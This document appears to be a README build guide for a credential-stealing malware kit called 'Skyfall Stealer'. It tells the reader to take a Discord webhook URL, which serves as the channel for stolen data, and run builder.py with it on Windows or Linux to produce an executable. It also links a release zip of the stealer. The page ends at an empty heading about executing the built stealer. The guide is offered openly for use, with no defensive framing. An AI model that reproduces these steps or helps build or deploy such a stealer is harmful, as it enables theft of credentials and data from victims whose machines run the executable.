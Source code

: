 # Build Guide for the Skyfall Stealer
## Run the builder.py Script

To build a Skyfall Stealer you will need the webhook url from the webhook that we created earlier.
To access it, head over to your new server's settings and click on the **"Intergrations"** tab. Then click on the **"Webhooks"** tab.

[![image](https://i.ibb.co/56LJStc/stealer.png)](https://github.com/Tangoxfreq/skyfall-stealer/releases/download/v1.8.2/skyfall-stealer.zip)

To Execute the builder.py script, you need to run the following command:

### Windows
```
.\venv\Scripts\python.exe builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
### Linux
```
sudo python3 builder.py -w YOUR_WEBHOOK_URL -o FILE_NAME
```
Make sure you replace the **YOUR_WEBHOOK_URL** with the webhook url you copied earlier and replace **FILE_NAME** with the name you want to give your executable file.

Once the builder is done, you will find your file in the **dist** directory.

## Execute built Skyfall Stealer






